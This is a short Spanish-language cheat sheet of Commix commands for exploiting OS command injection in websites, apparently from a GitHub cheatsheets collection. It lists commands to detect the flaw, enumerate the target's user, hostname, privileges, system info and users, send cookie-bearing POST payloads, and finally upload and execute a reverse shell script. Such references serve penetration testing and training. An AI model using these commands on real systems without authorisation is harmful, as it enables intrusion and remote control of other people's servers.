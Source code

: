 # Commix Cheat Sheet

#### Revisar si es vulnerable a inyección de comandos un sitio web
```
commix -u <URL>
```

#### Obtener toda la información básica del objetivo
```
commix -u <URL> --all
```

#### Conocer el usuario actual del objetivo
```
commix -u <URL> --current-user
```

#### Conocer el nombre del Host del objetivo
```
commix -u <URL> --hostname
```

#### Saber si el usuario es root o no
```
commix -u <URL> --is-root
```

#### Conocer la información del sistema del objetivo
```
commix -u <URL> --sys-info
```

#### Conocer todos los usuarios del sistema
```
commix -u <URL> --users
```

#### Saber si el usuario es admin o no
```
commix -u <URL> --is-admin
```

#### Enviar la petición por POST y usando una cookie
```
commix -u <URL> --cookie="<COOKIE>" --data="ip=127.0.0.1&Submit=Submit"
```

#### Cargar una reverse shell y ejecutarla
```
commix -u <URL> --cookie="<COOKIE>" --data="ip=127.0.0.1&Submit=Submit" --file-write="/root/revshell.sh" --file-dest="/tmp/revshell.sh" --os-cmd="bash /tmp/revshell.sh"
```

---

[:arrow_left: Regresar](https://github.com/m4lal0/cheatsheets)